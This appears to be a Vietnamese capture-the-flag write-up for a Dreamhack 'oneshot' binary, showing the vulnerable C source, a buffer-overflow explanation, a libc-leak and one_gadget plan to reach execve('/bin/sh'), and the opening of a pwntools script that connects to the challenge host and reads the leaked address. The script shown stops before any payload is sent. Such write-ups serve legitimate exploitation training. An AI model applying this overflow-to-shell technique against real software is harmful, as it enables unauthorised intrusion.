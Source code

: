 ```c 
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```
- Checksec
![image](https://hackmd.io/_uploads/HJ1aWGGF0.png)
- Cho nhập vào biến `msg` 46 byte trong khi khai báo có 16 byte nên có lỗi buffer overflow
- Có vẻ bài này thực thi `system("/bin/sh)"` bằng cách leak libc có vẻ không khả thi
- Ta sử dụng một công cụ là `one_gadget` để tìm địa chỉ của lệnh `execve("/bin/sh")` trong file libc 
![image](https://hackmd.io/_uploads/S1pSvGfYR.png)
- Sau đó leak libc vì bài cho sẵn địa chỉ của `stdout`
- Nhưng để chương trình thực thi thành công thì `if(check > 0)` là không đúng để không kết thúc chương trình, ta cần gán check = 0, size_t có giá trị là 8 byte
## Script
```python=
#!/usr/bin/python3

from pwn import *


exe = ELF("./oneshot", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

#p = process(exe.path)

p = remote("host1.dreamhack.games", 16119)

one_gadget = 0x45216

p.recvuntil(b'stdout: ')
stdout = int(p.recvline()[:-1],16)
log.info(hex(stdout))
```